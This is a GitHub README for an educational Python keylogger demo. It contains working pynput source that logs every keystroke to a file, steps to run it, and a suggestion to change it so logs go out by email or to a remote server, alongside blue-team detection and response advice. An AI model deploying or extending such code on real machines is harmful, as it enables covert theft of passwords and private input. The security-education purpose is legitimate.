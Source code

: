 [Keylogger_Attack_Demo_README.txt](https://github.com/user-attachments/files/20854654/Keylogger_Attack_Demo_README.txt)

Keylogger Attack Demo (Python)
==============================

📌 Overview
-----------
This project is a simple Python-based keylogger created for ethical hacking demonstrations, red team simulations, and cybersecurity education. It captures keyboard inputs and saves them to a log file for analysis.

⚠️ Legal Disclaimer: This project is intended for educational purposes only. Unauthorized access or use of keyloggers is illegal and unethical.

🎯 Objective
------------
- Demonstrate how keyloggers can be used in attacks.
- Understand how attackers deploy keyloggers.
- Learn how to defend against keylogging threats.

🔧 Requirements
---------------
- Python 3.x
- pynput library (pip install pynput)

🧪 How to Run (Attack Demo)
---------------------------
⚠️ For Local Testing / Red Team Demo Only!

1. Clone the repository
   git clone https://github.com/yourusername/keylogger-attack-demo.git
   cd keylogger-attack-demo

2. Install dependencies
   pip install pynput

3. Run the keylogger
   python keylogger.py

4. Observe output
   - Keystrokes are saved in a file named 'key_log.txt'.

5. (Optional) Modify script to send logs via email or remote server (educational purposes only).

🔒 Defense Strategy (Blue Team)
------------------------------
✅ 1. Detect Keyloggers
- Use antivirus software or endpoint detection and response (EDR) tools.
- Check for suspicious Python processes running in Task Manager.
- Monitor abnormal file changes or logging behavior.

✅ 2. Prevent Keylogger Installation
- Keep OS and software updated.
- Avoid downloading scripts or files from untrusted sources.
- Restrict user permissions and enforce application whitelisting.

✅ 3. Block Keylogger Execution
- Use firewalls or group policies to block unknown scripts.
- Disable script execution from temp folders.

✅ 4. Respond to an Infection
- Quarantine and remove malicious scripts.
- Rotate passwords immediately.
- Check systems for data exfiltration (e.g., FTP, SMTP traffic).

👨‍💻 Example Code (keylogger.py)
-------------------------------
from pynput import keyboard

log_file = "key_log.txt"

def on_press(key):
    with open(log_file, "a") as f:
        try:
            f.write(f"{key.char}")
        except AttributeError:
            f.write(f"[{key}]")

listener = keyboard.Listener(on_press=on_press)
listener.start()
listener.join()

🧠 Learning Outcomes
--------------------
- Understand how a basic keylogger works.
- Recognize potential entry points attackers might exploit.
- Build defenses against keylogging-based threats.

📚 Resources
------------
- Python Keylogging: https://pynput.readthedocs.io
- MITRE ATT&CK – Input Capture: https://attack.mitre.org/techniques/T1056/
- OWASP Top 10: https://owasp.org/www-project-top-ten/

🚨 Warning
----------
This project must never be used on unauthorized systems or without informed consent. Doing so is a criminal offense in many jurisdictions.

🛡️ License
-----------
This project is licensed under the MIT License – see the LICENSE file for details.
